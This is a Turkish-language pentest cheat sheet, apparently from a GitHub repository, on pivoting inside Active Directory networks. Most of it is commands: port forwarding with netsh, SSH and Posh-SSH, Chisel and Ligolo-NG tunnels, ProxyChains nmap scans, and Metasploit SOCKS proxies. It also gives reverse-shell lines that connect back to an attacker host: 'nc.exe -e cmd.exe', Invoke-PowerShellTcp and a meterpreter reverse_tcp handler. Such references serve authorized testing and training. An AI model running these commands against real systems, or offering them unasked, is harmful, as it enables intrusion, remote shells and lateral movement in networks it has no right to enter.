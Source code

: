 # Active Directory Pentest - Pivoting Safhası Metodolojisi

## Pivoting Nedir?
Pivoting, bir ağ üzerindeki bir cihazdan, başka cihazlara veya ağlara erişim elde etme işlemidir. Özellikle Active Directory (AD) pentestlerinde, bir ağın farklı bölümlerine erişim sağlamak için pivoting işlemi gerçekleştirilir. Bu rehberde, pivoting safhasında kullanılan tüm komutlar, yollar ve yöntemler detaylıca açıklanmıştır.

## Pivoting Süreci
Pivoting işlemi genellikle şu adımları içerir:

1. **Erişim Sağlama**: İlk hedef cihazda shell veya RDP gibi erişim elde edilir.
2. **Bağlantı Yönlendirme (Port Forwarding)**: İç ağda başka cihazlara erişim sağlanır.
3. **Ağ Keşfi**: Yeni hedef cihazların keşfi yapılır.
4. **Yetkilendirme (Authentication)**: Yeni cihazlara bağlantı için kimlik doğrulama işlemleri gerçekleştirilir.
5. **Saldırı ve Bilgi Çalma**: Yeni cihazlarda saldırılar gerçekleştirilir.

---

## Pivoting Komutları ve Yöntemleri

### 1. **PowerShell Kullanarak Pivoting**
#### **Komutlar ve Açıklamaları**

**1.1. Port Forwarding Yapmak için `New-SSHSession` (Posh-SSH Modülü)**
```powershell
# SSH oturumu oluştur
New-SSHSession -ComputerName "10.10.10.10" -Credential (Get-Credential)

# Port forward işlemi
New-SSHPortForward -SSHSessionId 0 -LocalPort 8888 -RemoteHost "192.168.1.10" -RemotePort 3389
```
* **Amaç**: Bir cihaz üzerindeki RDP portunu yerel makineye yönlendirmek.

**1.2. Proxy Kullanımı için `Invoke-SocksProxy`**
```powershell
# SOCKS proxy başlat
Invoke-SocksProxy -BindPort 1080
```
* **Amaç**: Proxy üzerinden diğer ağ cihazlarına bağlantı sağlamak.

**1.3. Reverse Shell için `Invoke-PowerShellTcp`**
```powershell
# Reverse Shell oluştur
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.100 -Port 4444
```
* **Amaç**: Uzak bir cihazdan bağlantı almak.

---

### 2. **CMD Kullanarak Pivoting**
#### **Komutlar ve Açıklamaları**

**2.1. `netsh` ile Port Forwarding**
```cmd
# Port yönlendirme kuralı ekle
netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=8888 connectaddress=192.168.1.10 connectport=3389

# Mevcut kuralları görüntüle
netsh interface portproxy show all
```
* **Amaç**: Yerel bağlantıları hedef cihaza yönlendirmek.

**2.2. Reverse Shell için `cmd`**
```cmd
# Netcat kullanarak reverse shell
nc.exe -e cmd.exe 192.168.1.100 4444
```
* **Amaç**: Uzak bir makineye erişim sağlamak.

---

### 3. **Chisel Kullanımı**
#### **Komutlar ve Açıklamaları**

**3.1. Chisel Server Başlatma (Kali Linux)**
```bash
./chisel server -p 8000 --reverse
```
* **Amaç**: Reverse bağlantıları kabul etmek.

**3.2. Chisel Client ile Bağlanma (Windows)**
```cmd
chisel.exe client 192.168.1.100:8000 R:3389:127.0.0.1:3389
```
* **Amaç**: Hedef cihazın RDP portunu yerel makineye yönlendirmek.

---

### 4. **Ligolo-NG Kullanımı**
#### **Komutlar ve Açıklamaları**

**4.1. Ligolo-NG Server Başlatma (Kali Linux)**
```bash
ligolo-ng proxy -p 8000
```
* **Amaç**: Reverse proxy server başlatmak.

**4.2. Ligolo-NG Client ile Bağlanma (Windows)**
```cmd
ligolo-ng.exe tunnel -s 192.168.1.100:8000 -t 127.0.0.1:3389
```
* **Amaç**: Hedef cihazın RDP portunu yerel makineye yönlendirmek.

---

### 5. **SSH Tunneling ile Pivoting**
#### **Komutlar ve Açıklamaları**

**5.1. Port Forwarding**
```bash
ssh -L 8888:192.168.1.10:3389 user@10.10.10.10
```
* **Amaç**: Yerel portu hedef cihazdaki bir porta yönlendirmek.

**5.2. Dinamik Proxy (SOCKS)**
```bash
ssh -D 1080 user@10.10.10.10
```
* **Amaç**: Dinamik proxy oluşturmak ve tarama işlemleri için kullanmak.

**5.3. Reverse Tunnel Oluşturma**
```bash
ssh -R 2222:127.0.0.1:22 user@192.168.1.100
```
* **Amaç**: Uzak makineden yerel makineye bağlantı sağlamak.

---

### 6. **ProxyChains Kullanımı**
#### **Komutlar ve Açıklamaları**

**6.1. ProxyChains Konfigürasyonu**
```bash
# /etc/proxychains.conf dosyasını düzenleyin
tor
```
* **Amaç**: ProxyChains ayarlarını yapmak.

**6.2. ProxyChains ile Nmap Taraması**
```bash
proxychains nmap -sT -Pn 192.168.1.0/24
```
* **Amaç**: Proxy üzerinden ağ taraması yapmak.

---

### 7. **Meterpreter Kullanarak Pivoting**
#### **Komutlar ve Açıklamaları**

**7.1. Reverse TCP Shell Açmak**
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```
* **Amaç**: Meterpreter ile shell elde etmek.

**7.2. Socks Proxy Kurmak**
```bash
use auxiliary/server/socks_proxy
set SRVPORT 1080
run
```
* **Amaç**: Proxy ile diğer cihazlara erişim sağlamak.

---

## Sonuç
Bu rehber, Active Directory pentestlerinde pivoting safhasında kullanılan tüm komutları ve yöntemleri kapsamaktadır. Her bir yöntem, farklı bir senaryo için uygundur ve hangi yöntemin kullanılacağına, mevcut erişim durumuna göre karar verilmelidir. Rehberi ihtiyaçlarınıza göre genişletebilirsiniz.
